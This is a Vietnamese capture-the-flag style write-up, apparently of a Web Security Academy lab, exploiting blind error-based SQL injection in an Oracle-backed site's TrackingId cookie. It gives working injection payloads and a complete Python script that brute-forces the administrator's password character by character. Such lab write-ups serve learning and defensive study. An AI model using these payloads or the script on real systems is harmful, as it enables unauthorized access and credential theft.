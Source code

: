 ![image](https://github.com/user-attachments/assets/64a4104b-692d-400a-af27-ac5aa5030a05)![image](https://github.com/user-attachments/assets/b66a0369-e78b-4f3e-b581-08de8449b337)

![image](https://github.com/user-attachments/assets/cc16552d-8149-42d8-b223-26335cc24fe9)

Sau khi test với nháy đơn thì xác định được ứng dụng bị sqli.

![image](https://github.com/user-attachments/assets/276c23ac-c98d-41f9-9684-2fb3b904894c)

Thử câu truy vấn hợp lệ nhưng không có tác dụng thực tế và nó vẫn báo lỗi, tức là khả năng bị sai, có thể là thiếu table.

Thử xem, ví dụ như dbms mssql, sql server xem, select schema table chẳng hạn. Nhưng cho nhanh thì tôi sẽ thử các cái nổi nổi như mysql, oracle nhất.

![image](https://github.com/user-attachments/assets/a14a1663-c0b3-477c-a2cc-4a84e570ed0d)

Đúng thật sau khi thử thì ta biết chắc chắn sqli này là oracle.

Nhưng tại sao phải dùng `||` nhỉ ?? Liệu có thể dùng cái khác không ???. Thì câu trả lời sẽ là có thể. dùng || để như trong trường hợp waf nó chặn union chẳng hạn. Và `||` trong trường hợp này là nó dùng để nối chuỗi mà thì cũng tương đương với mực đích dùng union thôi.

Tiến hành dùng union xem sao nhé.

![image](https://github.com/user-attachments/assets/581ccd39-a4a3-4388-844c-f21c5da5d196)

Đó đã thành công rồi kìa.

2 Payload tương đương

```
'||(SELECT+''+from+dual)||'
'union+select+''+from+dual--
```

![image](https://github.com/user-attachments/assets/6d89c50a-1e7e-409f-964f-0b130eef7373)

Chứng tỏ sqli đã được thực thi.

Tiếp theo chúng ta sẽ đoán tên column và khai thác sqli này là Error-Based SQL Injection

Và tôi sẽ dùng cách này để tấn công, theo đúng format của oracle nhé

```
CASE WHEN ... THEN ... ELSE ... END.
```

![image](https://github.com/user-attachments/assets/1be24ad2-7462-4866-b6bb-29161b76239e)

Đi từ đầu câu truy vấn nhé, bạn có thể thấy rằng case nó như switch case trong c++ hay các ngôn ngữ lập trình khác á.

Thì nó gặp 1=1 tức là đúng thì nó sẽ đến then và nó gặp 1/0, thì lại sai vì không thể chia cho 0. Khi đó nó sẽ bắn ra lỗi.

![image](https://github.com/user-attachments/assets/6752d0a1-f8e8-4b54-8428-6c5aa34e9d13)

Còn khi mà 1=2 thì nó sẽ nhảy đến else luôn.

Đó thì ta lợi dụng cách này để đoán ra tên column. 

**Và lưu ý nhé, nếu không có dữ liệu để chạy CASE, thì CASE không chạy luôn.**

Thì đó mới là nguyên nhân ta biết đoán được dựa trên error nhé, chứ không phải là case -> then luôn đâu, nó sẽ check xem column đó có tồn tại hay k đấy.

![image](https://github.com/user-attachments/assets/5e88fa01-a3c9-442e-b931-53c5e6949a41)

![image](https://github.com/user-attachments/assets/58cca1fa-1930-4f5b-ab3b-391f2551e558)

Vậy là ta đã check được passwd có 20 ký tự nhé.

![image](https://github.com/user-attachments/assets/36682a9b-ba5c-4697-b7de-36885c3068ae)

Payload:

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Cách thứ 2 là tôi sẽ viết script

```
import requests
import string

# Cấu hình request
URL = "https://0a1e004903ddf4658108ed5b007e00bb.web-security-academy.net/filter?category=Gifts"
COOKIES = {
    "session": "FX2cnYUNTlQ3tFoLzudHsZC57WVSbHMc"
}
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36",
    "Referer": "https://0a1e004903ddf4658108ed5b007e00bb.web-security-academy.net/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": '"Chromium";v="125", "Not.A/Brand";v="24"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document"
}

# Bộ ký tự cần thử: a-z, A-Z, 0-9
CHARSET = string.ascii_letters + string.digits


def is_correct_guess(response):
    """ Kiểm tra nếu server trả về lỗi 500 (chia cho 0). """
    return response.status_code == 500


def brute_force_password():
    password = ""

    for i in range(1, 50):  # Giả sử password có tối đa 50 ký tự
        found = False
        for char in CHARSET:
            # Inject SQL để kiểm tra ký tự thứ i của password
            payload = f"jjb6UlCHrlZ1SHBB'||(SELECT CASE WHEN SUBSTR(password,{i},1)='{char}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            cookies = COOKIES.copy()
            cookies["TrackingId"] = payload

            print(f"[*] Đang thử ký tự thứ {i}: {char}")  # Debug

            response = requests.get(URL, cookies=cookies, headers=HEADERS)

            if is_correct_guess(response):
                password += char
                print(f"[+] Ký tự đúng: {char} --> {password}")
                found = True
                break
        
        if not found:
            print(f"[*] Password hoàn chỉnh: {password}")
            break

    return password


# Chạy script
final_password = brute_force_password()
print(f"Password cuối cùng: {final_password}")

```

![image](https://github.com/user-attachments/assets/beaa9312-b17a-43fb-b537-bb705702b78e)

Vậy là đã thành công.

![image](https://github.com/user-attachments/assets/b1c2cb10-453b-4386-9a3a-a830b8376038)
